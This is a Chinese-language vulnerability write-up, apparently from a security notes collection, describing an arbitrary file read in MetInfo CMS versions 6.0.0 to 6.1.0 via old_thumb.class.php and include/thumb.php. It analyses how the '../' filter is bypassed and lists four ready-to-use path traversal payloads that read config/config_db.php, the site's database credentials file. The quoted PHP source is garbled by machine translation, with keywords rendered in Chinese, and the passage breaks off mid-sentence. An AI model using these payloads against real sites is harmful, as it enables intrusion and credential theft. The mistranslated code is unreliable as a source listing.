

MetInfo 任意文件读取
====================

一、漏洞简介
------------

MetInfo是一套使用PHP和Mysql开发的内容管理系统。 MetInfo
6.0.0\~6.1.0版本中的
old\_thumb.class.php文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

二、漏洞影响
------------

MetInfo 6.0.0 MetInfo 6.1.0

三、复现过程
------------

### 漏洞分析

进攻分析
看下\\MetInfo6\\app\\system\\include\\module\\old\_thumb.class.php

    <？php 
    ＃MetInfo企业内容管理系统
    ＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

    define（'IN_MET'）或 退出（'No权限'）;

    load :: sys_class（'web'）;

    class  old_thumb  扩展了 网络 {

          公共 功能 doshow （） { 全局 $ _M;

            $ DIR = str_replace函数（'../' ，''，$ _GET [ '目录' ]）;

            if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
                header（“ Content-type：image / jpeg”）; 
                ob_start（）; 
                readfile（$ dir）; 
                ob_flush（）; 
                flush（）; 死 ;         }

            if（$ _M [ 'form' ] [ 'pageset' ]）{ 
              $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

            } else { 
              $ path = $ dir; 
            } 
            $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;

                readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
                ob_flush（）; 
                flush（）; 
            }

        } 
    }

    ＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。
    ＃版权所有（C）MetInfo Co.，Ltd.（http://www.metinfo.cn）。版权所有。
    ？>

从代码中看用看到，\$dir直接由\$\_GET\[\'dir\'\]传递进来，并将../置空。目标是进入到第一个，如果里面的readfile(\$dir);，读取文件。看看如果语句的条件，的英文外面一个strstr函数，判断\$dir中http字符串的首次出现位置，实质上，要进入到这个if语句里面，\$dir中必须包含http字符串。里面的将\$dir中包含\$\_M\[\'url\'\]\[\'site\'\]的部分放置空，这里可以不用管。

从上面的分析可以构造出有效负载，只要\$dir里包含http字符串就可以进入到readfile函数从而重新读取任意函数，然后可以使用\..././来进行目录替换，因为../会被置空，所以最终payload如下

    ?dir=..././http/..././config/config_db.php
    ?dir=.....///http/.....///config/config_db.php
    ?dir=http/.....///.....///config/config_db.php
    ?dir=http\..\..\config\config_db.php

### 漏洞复现

要先找到调用old\_thumb.class.php的文件，看到include/thumb.php，可以从这个文件里面进入到old\_thumb.class.php

    <?php
    # MetInfo Enterprise Content Management System
    # Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
    define('M_NAME', 'include');
    define('M_MODULE', 'include');
    define('M_CLASS', 'old_thumb');
    define('M_ACTION', 'doshow');
    require_once '../app/system/entrance.php';
    # This program is an open source system, commercial use, please consciously to purchase commercial license.
    # Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
    ?>

所以我们通过thumb.php将构造好的\$dir传入即可。

可以看到成功的读取到了config/config\_
